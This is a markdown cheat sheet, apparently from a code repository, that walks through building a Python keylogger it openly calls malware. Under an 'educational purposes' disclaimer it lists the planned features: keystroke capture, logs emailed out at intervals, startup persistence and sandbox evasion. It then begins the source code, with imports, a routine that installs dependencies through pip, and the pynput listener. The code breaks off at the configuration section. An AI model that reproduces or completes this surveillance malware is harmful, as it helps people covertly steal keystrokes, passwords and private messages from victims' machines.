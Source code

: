 > ⚠️ **Disclaimer**: This code is for educational purposes only. Use only in a secure, isolated lab environment with proper authorization. Unauthorized use or deployment of malware is illegal and unethical.

# Keylogger Cheat Sheet (For Educational Purposes)

This cheat sheet provides a guide to creating a **Python-based Keylogger**, a type of malware that captures and logs keystrokes on a target machine. The collected data can then be sent to a remote server for analysis.

---

## Keylogger Overview

A **Keylogger** is designed to:
- **Capture Keystrokes**: Record every keystroke made by the target.
- **Store or Send Data**: Log captured data locally or send it to a remote server.
- **Evasion & Persistence**: Stealthily execute in the background and maintain access over time.

---

## Key Features in This Keylogger

1. **Keystroke Capture**: Uses the `pynput` library to monitor and log keystrokes.
2. **Automatic Dependency Installation**: Installs required modules if missing.
3. **Data Exfiltration**: Sends logged keystrokes to a specified email at set intervals.
4. **Persistence Mechanism**: Adds itself to startup to continue logging across reboots.
5. **Anti-Analysis Evasion**: Includes delays to avoid sandbox detection.

---

## Advanced Python Keylogger Code

The code below captures keystrokes, automatically installs dependencies, periodically sends logs via email, and sets up persistence on the target machine.

### Full Keylogger Code

```python
import os
import sys
import time
import threading
import smtplib
import ctypes
import tempfile
import subprocess
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

# Automatically check and install dependencies
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])

# Ensure required modules are installed
install_module("pynput")
from pynput.keyboard import Listener

# Configuration
```